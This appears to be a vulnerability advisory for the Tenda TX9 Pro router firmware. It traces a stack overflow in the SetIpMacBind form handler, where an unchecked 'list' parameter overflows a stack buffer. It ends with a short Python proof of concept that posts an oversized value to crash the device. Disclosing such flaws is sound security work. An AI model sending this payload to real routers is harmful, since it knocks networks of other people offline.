


Affect device: Tenda-TX9 Pro V22.03.02.10 (https://www.tendacn.com/download/detail-4219.html)

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)


## Vulnerability description

This vulnerability is a stack overflow triggered in the `sub_42EDE4` function, which satisfies the request of the upper-level interface function `sub_42F124`, that is, handles the post request under `/goform/SetIpMacBind`

The `sub_42F124` function calls `sub_42EFF8` function




In the `sub_42EFF8` function, the two local variables `v4` and `v5` are obtained directly from the http request parameter `bindnum` and `list`, respectively .

The address of `v5` (`v9`) is used as the second parameter of the `sub_42EDE4` function

Then it calls `sub_42EDE4` function



In the `sub_42EDE4` function, `v6` is incoming **list** parameter, and it is copied to `v18` without length limit and security check. So the attacker can cause stack overflow through a long `list` and achieve denial of service attack


## poc

```python
import requests
from pwn import *

url = "http://192.168.28.131/goform/SetIpMacBind"
cookie = {"Cookie":"password=aaa"}
data = {"bindnum": "1", "list":"\r" + "A" * 0x500}


requests.post(url, cookies=cookie, data=data)
```

